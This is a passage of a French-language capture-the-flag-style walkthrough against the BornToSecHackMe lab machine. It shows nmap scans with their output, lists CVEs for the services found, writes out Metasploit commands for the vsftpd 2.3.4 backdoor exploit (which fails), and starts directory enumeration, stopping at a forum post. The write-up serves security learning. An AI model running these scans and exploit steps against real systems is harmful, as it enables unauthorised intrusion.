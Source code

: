 #### I - Trouver l'ip de la machine
``nmap -sn 192.168.31.0/24``
>Nmap scan report for BornToSecHackMe (**192.168.31.26**)

----

#### II - On verifie les services ouverts sur tous les ports
``nmap -p- -sV 192.168.31.26``
>Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 20:55 CEST
>Nmap scan report for BornToSecHackMe (192.168.31.26)
>Host is up (0.000079s latency).
>Not shown: 65529 closed tcp ports (conn-refused)
>PORT		STATE	SERVICE    VERSION
>**21/tcp	open	ftp        vsftpd 2.0.8 or later
>22/tcp		open	ssh        OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
>80/tcp		open	http       Apache httpd 2.2.22 ((Ubuntu))
>143/tcp		open	imap       Dovecot imapd
>443/tcp		open	ssl/http   Apache httpd 2.2.22
>993/tcp		open	ssl/imaps?
>Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel**

----

#### III - On etudie les failles connues sur les services
**SSH :**
CVE-2016-0777 : Permet à un serveur malveillant d'exfiltrer des données privées du client en envoyant un paquet SSH2_MSG_UNIMPLEMENTED en réponse à une requête SSH_FXP_INIT.

**Apache httpd 2.2.22 :**
CVE-2017-7679: Une vulnérabilité dans le module mod_mime peut permettre à un attaquant d'exécuter du code arbitraire à distance.
[-] https://192.168.31.26:443
-> The target is not vulnerable to CVE-2021-42013 (requires mod_cgi to be enabled).

**VSFTPD :**
backdoor dans la version 2.3.4
msf6 > search vsftpd
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set rhosts 192.168.1.2
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit
[*] 192.168.31.26:21 - Banner: 220 Welcome on this server
[*] 192.168.31.26:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.

----

#### III - On etudie l'arborescence du site

Avec ``dirb``, sur le https, on trouve ceci d'interessant :

##### /forum
- type : my little forum
- On fouille le forum et on trouve un post :
>Probleme login ?

